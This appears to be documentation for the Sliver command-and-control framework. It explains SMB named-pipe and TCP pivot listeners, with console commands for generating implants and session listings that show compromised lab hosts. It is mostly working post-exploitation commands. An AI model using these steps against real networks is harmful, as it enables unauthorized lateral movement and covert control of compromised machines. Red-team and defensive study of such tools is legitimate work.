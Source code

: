 
⚠️ Pivots in Sliver are used for specifically pivoting C2 traffic, not to be confused with port forwarding i.e. `portfwd` for tunneling generic TCP connections in/out of a target environment. 

Sliver supports two types of pivot listeners: SMB and TCP pivots.

# SMB named pipe pivot

To start a SMB pivot listener, use the `named-pipe` command from a sliver session:

```
sliver (DELIGHTFUL_TELLER) > named-pipe -h

Start a named pipe pivot listener

Flags:
======
  -h, --help              display help
  -n, --name    string    name of the named pipe
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (DELIGHTFUL_TELLER) > named-pipe --name lol

[*] Listening on \\.\pipe\lol
```

Then, generate a new sliver using the `named-pipe` transport:

```
sliver > generate --named-pipe desk01//./pipe/lol --skip-symbols --save /tmp
```

The format for the `--named-pipe` parameter is `HOSTNAME//./pipe/PIPE_NAME` where:

- `HOSTNAME` is either the IP address, the machine name or the Fully Qualified Domain Name (FQDN) of the host
- `PIPE_NAME` is the same name as the one used in the `named-pipe` command

Once the new sliver runs, you should see something similar to this output:

```
[*] Session #5 YUMMY_C-CLAMP - \\DESK01\pipe\lol (APPSRV01) - windows/amd64 - Thu, 09 Jul 2020 10:54:16 CEST
sliver (FLAT_HUT) > sessions

ID  Name           Transport           Remote Address      Hostname  Username              Operating System  Last Check-in
==  ====           =========           ==============      ========  ========              ================  =============
4   FLAT_HUT       mtls                172.16.20.13:23424  DESK01    CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
5   YUMMY_C-CLAMP  named-pipe (PIVOT)  \\DESK01\pipe\lol   APPSRV01  CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
```

# TCP Pivot

To start a TCP pivot, use the `tcp-pivot` command from a sliver session:

```
sliver (CHUBBY_PAVILION) > tcp-pivot -h

Start a TCP pivot listener

Flags:
======
  -h, --help              display help
  -l, --lport   int       tcp listen port (default: 9898)
  -s, --server  string    interface to bind server to (default: 0.0.0.0)
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (CHUBBY_PAVILION) > tcp-pivot -l 8000 -s 172.16.241.1

[*] Listening on tcp://172.16.241.1:8000
```

Then, use `generate` to create a new sliver that will connect through the pivot:

```
sliver > generate --skip-symbols --tcp-pivot 172.16.241.1:8000

```

Once this new sliver executes, you should see something like this:

```
[*] Session #3 DELIGHTFUL_TELLER - 172.16.241.1:8000 (DESKTOP-0QQJ4JL) - windows/amd64 - Thu, 09 Jul 2020 10:24:05 CEST

sliver > sessions

ID  Name               Transport    Remote Address      Hostname         Username             Operating System  Last Check-in
==  ====               =========    ==============      ========         ========             ================  =============
...
3   DELIGHTFUL_TELLER  tcp (PIVOT)  172.16.241.1:8000   DESKTOP-0QQJ4JL  DESKTOP-0QQJ4JL\lab  windows/amd64     Thu, 09 Jul 2020 10:24:08 CEST
```

